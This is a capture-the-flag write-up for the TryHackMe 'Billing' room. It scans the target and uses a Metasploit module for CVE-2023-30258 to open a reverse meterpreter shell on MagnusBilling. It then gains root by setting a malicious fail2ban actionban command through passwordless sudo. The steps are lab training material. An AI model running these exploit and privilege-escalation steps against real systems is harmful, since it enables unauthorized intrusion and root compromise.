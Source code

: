 ```yaml
---
title: "TryHackMe: Billing"
categories: [TryHackMe]
description: Exploit a well-known CVE to gain initial access, then elevate privileges by leveraging fail2ban.
tags: [web, rce, fail2ban, magnusbilling, metasploit]
render_with_liquid: false
media_subpath: /assets/img_dir/Billing_THM/
image: 
  path: billing.webp
  alt: Room Image
  
---
```


## Description

In the [**Billing TryHackMe**](https://tryhackme.com/room/billing) challenge, we'll exploit **CVE-2023-30258** to gain initial access to the **MagnusBilling** platform via unauthenticated remote code execution. Then, escalate privileges by abusing a misconfigured **fail2ban service** to achieve root access.


[![Billing](billing_1.png)](https://tryhackme.com/room/billing){: .center }


## Enumeration

Start with an nmap scan to identify open ports and services:

```shell
❯ nmap 10.10.254.59 -sC -sV

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-20 13:59 UTC
Nmap scan report for 10.10.254.59
Host is up (0.37s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.254.59/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 42.36 seconds
```

Open Ports Identified:

    22/tcp: SSH (OpenSSH 8.4p1)
    80/tcp: HTTP (Apache 2.4.56)
    3306/tcp: MySQL (MariaDB 10.3.23 or earlier)

Let's start by focusing on HTTP website, since the other three ports don’t seem to offer anything noteworthy at the moment. If you look closely to the scanning output, there’s an application called MagnusBilling running. A quick Google search of that application reveals a known vulnerability, [CVE-2023-30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/), and it turns out there’s a Metasploit exploit available for it.


[![Google Search](billing_2.png)](https://tryhackme.com/room/billing){: .center }


## Exploitation

Launch Metasploit and configure the exploit:

```shell
msf6 > search magnusbilling_unauth_rce_cve_2023_30258

Matching Modules
================
   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.254.59
RHOSTS => 10.10.254.59

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.13.82.190
LHOST => 10.13.82.190

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.13.82.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.254.59:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.83 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.254.59
[+] Deleted CCfDLivv.php
[*] Meterpreter session 1 opened (10.13.82.190:4444 -> 10.10.254.59:42936) at 2025-03-20 19:26:50 +0000
```

Drop into a shell and upgrade it to a full TTY:


```shell
meterpreter > shell
Process 1545 created.
Channel 0 created.

python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ 
```
>Note: The Python PTY module [docs](https://docs.python.org/3/library/pty.html) upgrades the shell to a fully interactive TTY. Learn more about TTYs [here](https://0xffsec.com/handbook/shells/full-tty/).

Now, locate the user.txt flag:

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ cd /home
asterisk@Billing:/home$ ls
magnus
asterisk@Billing:/home$ cd magnus
asterisk@Billing:/home/magnus$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
asterisk@Billing:/home/magnus$ cat user.txt
THM{USER_FLAG_HERE}
````

## Privilege Escalation

Check for sudo privileges:

```shell
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

The user asterisk can run `/usr/bin/fail2ban-client` as root without a password. Verify that fail2ban is running:

```shell
asterisk@Billing:/home/magnus$ systemctl status fail2ban
● fail2ban.service - Fail2Ban Service
     Loaded: loaded (/lib/systemd/system/fail2ban.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-03-20 10:20:01 HDT; 36min ago
       Docs: man:fail2ban(1)
    Process: 526 ExecStartPre=/bin/mkdir -p /run/fail2ban (code=exited, status=0/SUCCESS)
   Main PID: 542 (fail2ban-server)
      Tasks: 19 (limit: 2268)
     Memory: 27.4M
        CPU: 6.366s
     CGroup: /system.slice/fail2ban.service
             └─542 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

`fail2ban-client` allows us to manipulate jail actions. We can abuse the actionban parameter to execute commands as root. Set a malicious actionban command to copy root.txt to a readable location:

```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
```

Trigger the action by banning an IP (e.g., localhost):


```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
```

>Note: If the file doesn’t appear, ensure fail2ban is running (sudo /usr/bin/fail2ban-client restart) and retry the above 2 steps again.

Read the flag:

```shell
asterisk@Billing:/home/magnus$ cat /tmp/root.txt
THM{ROOT_FLAG_HERE}
```

## Conclusion

By exploiting CVE-2023-30258, we gained initial access as the asterisk user via Metasploit. Then, leveraging a misconfigured fail2ban service with sudo privileges, we escalated to root and captured both flags. This challenge highlights the dangers of unpatched software and overly permissive configurations.
